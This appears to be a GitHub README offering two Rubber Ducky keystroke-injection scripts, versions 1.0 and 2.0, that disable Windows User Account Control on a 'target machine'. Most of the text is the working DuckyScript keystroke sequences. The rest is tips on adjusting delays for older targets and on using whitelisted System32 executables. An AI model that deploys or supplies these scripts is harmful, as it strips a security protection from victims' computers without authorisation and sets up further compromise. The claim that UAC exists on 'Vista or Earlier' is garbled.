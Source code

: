 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky

A pair of fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments.
</BR>
if the target machine is old, I recommend extending the delay time.


![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)


</BR>


ver 1.0 uses a .exe application from the C: \ Windows \ System32 (system protected) folder, 
</BR>
to start the uac on-screen control and switch to the uac panel.
</BR>
the C: \ Windows \ SysWOW64 folder for the purpose or other protected system folders that contain exe are also fine.
</BR>
Several applications contained in System32 are good, but be careful because there are some exceptions.
</BR>
You can consult this list to see the applications that are whitelisted by default and therefore 
</BR>
do not require uac checking to be performed.
</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

QuickUACk Ver. 1.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM start C:\Windows\System32\AdapterTroubleshooter.exe
</BR>
REM work on all windows version 32 and 64 bit
</BR>
REM no reboot is required for disabling 
</BR>
STRING AdapterTroubleshooter
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



QuickUACk Ver. 2.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM opens directly the User Account Control Panel 
</BR>
REM work on all windows version 32 and 64 bit with uac (Vista or Earlier)
</BR>
REM no reboot is required for disabling
</BR>
STRING UAC
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
